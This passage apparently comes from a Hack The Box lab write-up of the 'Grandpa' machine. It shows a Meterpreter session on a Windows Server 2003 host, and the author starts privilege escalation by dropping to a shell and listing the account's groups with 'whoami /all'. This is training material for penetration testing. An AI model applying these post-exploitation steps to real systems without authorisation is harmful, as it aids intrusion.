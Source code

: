 ```none

meterpreter > sysinfo
Computer        : GRANPA
OS              : Windows .NET Server (5.2 Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```

## Privilege Escalation

At this point, I wanted to check to see if I was part of any interesting groups and/or had any interesting privileges I could abuse.

```none
meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 2668 created.
Channel 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                    SID
============================ ========
nt authority\network service S-1-5-20


GROUP INFORMATION
-----------------

Group Name                       Type             SID                                            Attributes
================================ ================ ============================================== ==================================================
NT AUTHORITY\NETWORK SERVICE     User             S-1-5-20                                       Mandatory group, Enabled by default, Enabled group
Everyone                         Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
GRANPA\IIS_WPG                   Alias            S-1-5-21-1709780765-3897210020-3926566182-1005 Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Log Users    Alias            S-1-5-32-559                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                    Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE             Well-known group S-1-5-6                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization   Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
LOCAL                            Well-known group S-1-2-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                    Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group

```